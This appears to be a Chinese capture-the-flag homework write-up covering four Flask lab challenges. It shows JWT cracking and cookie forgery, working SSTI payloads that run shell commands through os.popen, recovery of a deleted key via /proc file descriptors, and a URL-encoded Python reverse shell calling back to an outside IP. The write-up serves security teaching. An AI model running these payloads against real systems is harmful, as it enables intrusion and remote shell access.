前言
8月18日题课后作业
作业一
分析
测试一下没有注入和二次注入漏洞

看一下cookie是JWT。
payload
先用c-jwt-cracker爆破一下密码

再用JWT工具伪造一下用户

flag
将生成的cookie覆盖掉。就拿到了flag

作业二
分析
看页面没啥东西
1 | <!DOCTYPE html> |
看到源码，提示使用GET方式传search参数。

测试了一下，好像是模板注入。
1 | http://192.168.201.250:9013/?search={{[].__class__.__base__.__subclasses__()}} |
找一找可以用的函数

找到
payload
payload 一
1 | http://192.168.201.250:9013/?search={{[].__class__.__mro__[1].__subclasses__()[180]()._module.__builtins__['__import__']("o"+"s").popen("cat /flasklight/coomme_geeeeett_youur_flek").read()}} |
payload 二
1 | http://192.168.201.250:9013/?search={{"".__class__.__bases__[0].__subclasses__()[117].__init__['__glo'+'bals__'].popen("cat /flasklight/coomme_geeeeett_youur_flek").read()}} |
flag
flag{825e3f0dc85a}
作业三
分析

好奇怪的网站

看看源码，（这里好讨厌，要刷新多次才能找到正确的地址）。
这里有
1 | <!-- Lz9zZWNyZXQ9ZmxhZw== --> |
payload
测试一下，有ssti漏洞。
1 | view-source:http://192.168.201.250:9014/?secret={% for c in [].__class__.__base__.__subclasses__() %} |
1 | __import__("os").popen("cat flag.txt").read() |
flag
flag{58bf6581-7075-4566-95eb-9377ba32115f}
作业四
分析
页面很简单，直接看一看源码。
1 |
|
没什么特别的，试试了试可以下载服务器上的东西。

试试看下载一下程序源码
/page?url=app.py
1 | from flask import Flask, Response |
这里在no_one_know_the_manager路由中是可以执行命令的。但是这个命令的key在程序启动后就被删除了
linux有下面的特性，系统中如果一个程序打开了一个文件没有关闭，即便从外部（如os.remove(SECRET_FILE)）删除之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的 fd，通过这个我们即可得到被删除文件的内容。/proc/[pid]/fd/id这个目录里包含了进程打开文件的情况，pid是进程记录的打开文件的序号。

爆破一下，拿到key文件
Mf7aoRLyp8KAmQXANUcMYNiEBgo35f14oShBnatROxM=
在自己的电脑上执行
1 | nc -lvvp 5999 |
payload
1 | no_one_know_the_manager?key=dDkQDaNu3dl28dBJ78+8QOn0C3zmpRniuBlJe+jDJLA=&shell=%70%79%74%68%6f%6e%33%20%2d%63%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%34%37%2e%31%30%33%2e%33%38%2e%31%39%39%22%2c%35%39%39%39%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%73%68%22%2c%22%2d%69%22%5d%29%3b%27 |
在本地执行反弹shell失败。
但是在本地复现成功。
